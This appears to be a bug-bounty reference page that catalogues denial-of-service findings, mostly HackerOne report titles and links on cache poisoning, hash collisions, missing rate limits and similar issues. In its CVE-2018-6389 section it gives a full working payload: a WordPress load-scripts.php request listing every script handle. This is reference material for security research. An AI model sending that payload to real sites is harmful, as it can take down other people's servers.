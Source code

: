 # ☄ DoS

## Vuls:

### 0x01 file uploads:

> Image queue default key of 'None' and GraphQL unhandled type exception
>
> [https://hackerone.com/reports/996041](https://hackerone.com/reports/996041)



### 0x02 hash-collision DoS

> Hash-Collision Denial-of-Service Vulnerability in Markdown Parser
>
> [https://hackerone.com/reports/1341957](https://hackerone.com/reports/1341957)



### 0x03 JS source code

> 1-click DOS in fastify-static via directly passing user's input to new URL() of NodeJS without try/catch
>
> [https://hackerone.com/reports/1361804](https://hackerone.com/reports/1361804)

&#x20;

### 0x04 CVE-2018-6389

> CVE-2018-6389 exploitation - using scripts loader
>
> [https://hackerone.com/reports/925425](https://hackerone.com/reports/925425)

> \[mtn.com.af] Multiple vulnerabilities allow to Application level DoS
>
> [https://hackerone.com/reports/946578](https://hackerone.com/reports/946578)

1. open:

```
wp-admin/load-scripts.php?load=
```

2. payload:

```
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```

###

### 0x05 no rate limiting

#### OTP CODE

> No rate limit lead to otp brute forcing
>
> [https://hackerone.com/reports/1060541](https://hackerone.com/reports/1060541)

> No rate limit in otp code sending
>
> [https://hackerone.com/reports/1060518](https://hackerone.com/reports/1060518)

#### times feedback

> Race condition allows to send multiple times feedback for the hacker
>
> [https://hackerone.com/reports/1132171](https://hackerone.com/reports/1132171)



### 0x06 IP-in-IP

> IP-in-IP protocol routes arbitrary traffic by default - CVE-2020-10136
>
> [https://hackerone.com/reports/893922](https://hackerone.com/reports/893922)



###

### 0x07 CPDoS

> Cache Posioning leading do Denial of Service on `www.█████████`
>
> [`https://hackerone.com/reports/1198434`](https://hackerone.com/reports/1198434)

> Cache Posioning leading to denial of service at `█████████` - Bypass fix from report&#x20;
>
> [https://hackerone.com/reports/1322732](https://hackerone.com/reports/1322732)

### %0A

> %0A (New line) and limitness URL leads to DoS at all system \[Main adress (https://www.acronis.com/)]
>
> [https://hackerone.com/reports/1382448](https://hackerone.com/reports/1382448)



## Articles:

> [https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning](https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning)
